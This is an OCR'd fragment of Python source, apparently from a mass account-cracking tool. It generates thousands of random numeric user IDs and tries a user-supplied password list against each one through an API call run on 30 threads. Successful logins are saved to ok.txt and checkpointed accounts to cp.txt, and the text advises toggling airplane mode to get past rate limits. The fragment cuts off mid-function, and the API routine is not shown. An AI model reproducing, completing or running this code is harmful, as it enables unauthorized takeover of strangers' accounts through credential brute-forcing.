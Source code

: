 		if (limit)>50000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

	def shanto4(self):

		x = 1111111

		xx = 9999999

		#idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))

		if (limit)>50000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx
